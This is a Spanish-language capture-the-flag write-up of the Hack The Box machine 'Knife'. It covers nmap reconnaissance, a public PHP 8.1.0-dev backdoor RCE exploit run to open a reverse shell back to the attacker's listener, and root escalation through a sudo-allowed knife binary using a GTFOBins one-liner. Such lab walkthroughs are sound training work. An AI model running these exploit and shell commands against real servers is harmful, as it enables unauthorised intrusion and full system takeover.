


# Knife

`Knife` es una máquina Linux de dificultad fácil que cuenta con una aplicación que se ejecuta en una versión de PHP con puerta trasera. Esta vulnerabilidad se aprovecha para obtener un punto de apoyo en el servidor. Luego se aprovecha una configuración incorrecta de sudo para obtener un shell de root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Knife**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:56 CET
Initiating SYN Stealth Scan at 04:56
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 04:56, 12.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.042s latency).
Scanned at 2025-01-26 04:56:13 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.242
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado comprobamos que se encuentran abiertos el servicio SSH y una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80 10.10.10.242 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:58 CET
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   90.36 ms 10.10.16.1
2   31.31 ms knife.htb (10.10.10.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Initial Access

### PHP 8.1.0-dev - 'User-Agent' Remote Code Execution \[RCE]

Accederemos a http://10.10.10.242 y verificaremos que se trata de un `Apache HTTP Server 2.4.41` que utiliza `PHP 8.1.0`.

Realizamos una enumeración del sitio web en busca de subdominios, directorios, páginas sin éxito.

<figure><figcaption></figcaption></figure>

Probamos de buscar vulnerabilidades sobre la versión de `PHP` que se encontraba instalada en el sitio web, nos logramos encontrar con el siguiente repositorio.

Nos clonaremos el repositorio de GitHub en nuestra máquina local.



```bash
❯ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce; cd php-8.1.0-dev-backdoor-rce
Clonando en 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2 (from 1)
Recibiendo objetos: 100% (241/241), 1.66 MiB | 9.65 MiB/s, listo.
Resolviendo deltas: 100% (128/128), listo.
```

Nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit indicándole la página vulnerable y nuestra dirección y puerto donde estaremos escuchando para recibir la terminal.

```bash
❯ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.5 443
```

Después de lanzar el ataque, logramos acceder al equipo víctima y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.242] 52728
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat /home/james/user.txt
cat /home/james/user.txt
a7ef6c441**********************
```

## Privilege Escalation

### Abusing sudoers privilege (knife)

Revisando si el usuario que disponíamos actualmente tenía algún permiso de **sudoers**, nos encontramos que podía ejecutar como `sudo` el binario de `knife`.


Knife es una herramienta de línea de comandos que proporciona una interfaz entre un repositorio local de Chef y Chef Infra Server. Knife ayuda a los usuarios a administrar:


```bash
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Revisando en `GTFOBins` nos encontramos con la siguiente página en dónde nos explican como abusar de este binario en caso de disponer de permisos `sudo` sobre él.



Realizamos la explotación como`sudo` sobre el binario `knife` y verificamos que logramos obtener una bash como usuario `root`. Por otro lado, logramos también verificar cual es la flag de **root.txt**.

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/# cat /root/root.txt
cat /root/root.txt
a802f8156***********************
```
